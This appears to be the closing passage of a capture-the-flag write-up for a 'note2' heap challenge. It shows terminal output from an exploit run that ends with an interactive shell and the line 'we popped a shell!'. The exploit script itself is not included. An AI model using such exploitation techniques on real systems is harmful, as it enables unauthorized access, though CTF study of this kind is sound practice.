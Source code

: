 ```
3.Edit note
4.Delete note
5.Quit
option--->>

Input the id of the note:

do you want to overwrite or append?[1.overwrite/2.append]

TheNewContents:
[*] Switching to interactive mode
Edit note success!
1.New note
2.Show  note
3.Edit note
4.Delete note
5.Quit
option--->>
$ w
 22:20:38 up  1:45,  1 user,  load average: 0.40, 0.38, 0.22
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               20:35    1:45m  1:06   0.19s /sbin/upstart --user
$ ls
core  exploit.py  libc-2.19.so    libc-2.23.so  note2
```

Just like that, we popped a shell!
